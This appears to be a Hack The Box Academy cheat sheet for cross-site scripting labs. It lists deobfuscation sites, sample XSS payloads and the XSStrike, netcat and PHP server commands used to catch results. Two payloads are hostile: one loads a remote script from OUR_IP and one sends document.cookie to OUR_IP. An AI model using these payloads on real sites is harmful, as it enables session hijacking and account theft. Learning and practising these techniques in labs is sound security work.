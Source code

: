 # Deobfuscation Websites

| Website       | Link                            |
|---------------|---------------------------------|
| JS Console    | https://jsconsole.com/          | 
| Prettier      | https://prettier.io/playground/ | 
| Beautifier    | https://beautifier.io/          |
| JSNice        | http://www.jsnice.org/          |

# Misc

| Command       | Description                        |
|---------------|------------------------------------|
| `ctrl+u`      | Show HTML source code in Firefox   |

# XSS Payloads

| Payload                                                                                     | Description                          |
|---------------------------------------------------------------------------------------------|--------------------------------------|
| `<script>alert(window.origin)</script>`                                                     | Basic XSS Payload                    |
| `<plaintext>`                                                                               | Basic XSS Payload                    |
| `<script>print()</script>`                                                                  | Basic XSS Payload                    |
| `<img src="" onerror=alert(window.origin)>`                                                 | HTML-based XSS Payload               |
| `<script>document.body.style.background = "#141d2b"</script>`                               | Change Background Color              |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image              |
| `<script>document.title = 'HackTheBox Academy'</script>`                                    | Change Website Title                 |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`              | Overwrite website's main body        |
| `<script>document.getElementById('urlform').remove();</script>`                             | Remove certain HTML element          |
| `<script src="http://OUR_IP/script.js"></script>`                                           | Load remote script                   |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`             | Send Cookie details to us            |

## Commands

| Command                                                                               | Description                    |
|---------------------------------------------------------------------------------------|--------------------------------|
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                   | Run xsstrike on a URL parameter|
| `sudo nc -lvnp 80`                                                                    | Start netcat listener          |
| `sudo php -S 0.0.0.0:80`                                                              | Start PHP server               |
